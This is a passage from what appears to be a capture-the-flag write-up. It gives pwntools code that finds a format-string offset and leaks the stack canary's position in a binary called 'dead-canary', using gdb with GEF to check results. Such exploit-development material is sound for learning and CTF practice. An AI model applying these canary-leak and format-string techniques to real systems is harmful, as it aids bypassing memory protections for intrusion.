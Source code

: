 ```python
        _ = scanit(binary,t)
        print(i,_)
        if _.find(b'0x') >= 0:
            s = bytes.fromhex(_[2:].decode())[::-1]
            if s == t.encode():
                return(i)
    return None
```

This first half of [offset.py](offset.py) will emit each line of the stack and compare with the input, if there's a match, then the offset is returned.

```python
def findcanary(binary,offset):
    for i in range(offset,50):
        t = '%' + str(i).rjust(2,'0') + '$018p'
        context.log_level='WARN'
        p = process(binary.path)
        d = process(['gdb',binary.path,'-p',str(p.pid)])
        d.sendlineafter('gdb) ','source ~/.gdbinit_gef')
        d.sendlineafter('gef➤ ','canary')
        d.recvuntil('canary of process ' + str(p.pid) + ' is ')
        canary = d.recvline().strip()
        d.sendlineafter('gef➤ ','c')
        d.close()
        p.recvuntil('name: ')
        p.sendline(t)
        p.recvuntil('Hello ')
        _ = p.recvline().strip()
        print(i,_,canary)
        if _ == canary:
            return(i)
    return None

binary = ELF('./dead-canary')

offset = findoffset(binary)
canaryoffset = findcanary(binary,offset)

print()
print('offset:',offset)
print('canaryoffset:',canaryoffset)
```

The second half returns the offset of the canary.  This is a little tricker since the canary changes on each run and there's no loops (yet).  This hack just uses GEF to get the canary, then checks one (incrementing) stack offset until there's a match.

Final output:

```bash
offset: 6
canaryoffset: 39
```
